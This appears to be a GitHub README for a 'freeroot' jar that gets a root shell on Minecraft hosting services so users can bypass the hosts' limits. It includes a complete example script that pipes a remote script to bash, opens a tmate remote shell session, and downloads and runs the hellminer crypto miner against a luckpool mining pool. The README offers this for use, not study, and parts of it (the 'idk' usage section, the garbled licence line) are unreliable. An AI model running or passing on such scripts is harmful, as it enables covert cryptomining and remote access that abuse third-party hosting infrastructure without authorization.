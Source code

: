 ## Overview
freeroot with .jar (bypass hosting minecraft)
hi =) 
## Prerequisites

- Bash shell environment
- Internet connectivity
- Wget installed
- Supported CPU architecture: x86_64 (amd64) or aarch64 (arm64)

## Installation

step 1. Download file server.jar [here](https://github.com/Mytai20100/freeroot-jar/raw/refs/heads/main/server.jar)    
step 2. Run server and enjoy it =)
## Supported Architectures
- x86_64 (amd64)
- aarch64 (arm64)
## How using it ?
idk =)
## Optional Dealing with restricted hosts (e.g. using msh or blocked input access)
Some hosts block input/output or prevent apt from working properly. In these cases, you can modify the root.sh file inside freeroot and append the following snippet at the end:
>`$ROOTFS_DIR/usr/local/bin/proot \
  --rootfs="${ROOTFS_DIR}" \
  -0 -w /root -b /dev -b /sys -b /proc -b /etc/resolv.conf --kill-on-exit \
  /bin/bash -c '
    export DEBIAN_FRONTEND=noninteractive;
    apt update -y && apt upgrade -y ;
 #apt install neofetch -y 
  '
`
## Example for miner =) with hellminer
`#!/bin/sh

ROOTFS_DIR=$(pwd)
export PATH=$PATH:~/.local/usr/bin
max_retries=50
timeout=1
ARCH=$(uname -m)

if [ "$ARCH" = "x86_64" ]; then
  ARCH_ALT=amd64
elif [ "$ARCH" = "aarch64" ]; then
  ARCH_ALT=arm64
else
  printf "Unsupported CPU architecture: ${ARCH}"
  exit 1
fi

if [ ! -e $ROOTFS_DIR/.installed ]; then
  echo "Installing Ubuntu base rootfs..."
  wget --tries=$max_retries --timeout=$timeout --no-hsts -O /tmp/rootfs.tar.gz \
    "http://cdimage.ubuntu.com/ubuntu-base/releases/20.04/release/ubuntu-base-20.04.4-base-${ARCH_ALT}.tar.gz"
  mkdir -p $ROOTFS_DIR
  tar -xf /tmp/rootfs.tar.gz -C $ROOTFS_DIR
fi

if [ ! -e $ROOTFS_DIR/usr/local/bin/proot ]; then
  mkdir -p $ROOTFS_DIR/usr/local/bin
  wget --tries=$max_retries --timeout=$timeout --no-hsts -O $ROOTFS_DIR/usr/local/bin/proot "https://raw.githubusercontent.com/foxytouxxx/freeroot/main/proot-${ARCH}"
  chmod 755 $ROOTFS_DIR/usr/local/bin/proot
fi

if [ ! -e $ROOTFS_DIR/.installed ]; then
  echo "nameserver 1.1.1.1" > $ROOTFS_DIR/etc/resolv.conf
  echo "nameserver 1.0.0.1" >> $ROOTFS_DIR/etc/resolv.conf
  touch $ROOTFS_DIR/.installed
fi

$ROOTFS_DIR/usr/local/bin/proot \
  --rootfs="${ROOTFS_DIR}" \
  -0 -w /root -b /dev -b /sys -b /proc -b /etc/resolv.conf --kill-on-exit \
  /bin/bash -c '
    export DEBIAN_FRONTEND=noninteractive;
    apt update -y && apt install -y tmate curl wget libsodium23; 
    curl neofetch.sh | bash 
    echo "Tmate session starting...";
    tmate -F > /tmate.log 2>&1 &
cat /tmate.log
wget clone https://github.com/hellcatz/hminer/releases/download/v0.59.1/hellminer_linux64.tar.gz
tar -zxf hellminer_linux64.tar.gz 
./hellminer -c stratum+tcp://na.luckpool.net:3957 -u youraddress.nameworker -p x
  '
`
## Credits
freeroot by [foxytouxxx/freeroot](https://github.com/foxytouxxx/freeroot).
freeroot by [Mytai20100/freeroot](https://github.com/Mytai20100/freeroot).
## License
(c) 2025 -2026 ????? and ??? . All rights reserved. Licensed under the MIT License.
